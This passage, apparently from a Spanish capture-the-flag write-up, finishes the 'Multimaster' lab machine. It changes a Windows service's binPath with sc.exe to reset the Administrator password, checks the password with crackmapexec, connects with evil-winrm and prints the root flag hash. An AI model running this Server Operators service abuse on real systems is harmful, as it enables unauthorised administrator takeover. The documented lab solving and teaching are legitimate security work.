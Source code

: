 Antes vimos que este usuario formaba parte del grupo `Server Operators`, aprovecharemos esto para cambiar la propiedad `binpath` de un proceso el cual el forzaremos a desactivarse y al iniciarlo nuevamente nos ejecutara la sentencia que hayamos puesto. 


Cambiaremos el `binPath` del proceso `browser` para que al volver a iniciarse nos cambie la contraseña del usuario `Administrator`.

```powershell
*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe config browser binPath="C:\Windows\System32\cmd.exe /c net user Administrator fmiracle123$!"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe stop browser

SERVICE_NAME: browser
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0xafc8
*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start browser
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

Verificamos y efectivamente cambiamos las claves del usuario `Administrator`

```bash
❯ crackmapexec smb 10.10.10.179 -u 'Administrator' -p 'fmiracle123$!'
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\Administrator:fmiracle123$! (Pwn3d!)
```

Lo siguiente sera conectarnos, ir al directorio personal del usuario y visualizar la segunda flag `root.txt`

```powershell
❯ evil-winrm -i 10.10.10.179 -u 'Administrator' -p 'fmiracle123$!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
559ca9f9c145bc76f8504391a74710cc
```

y listo maquina pwneada!!







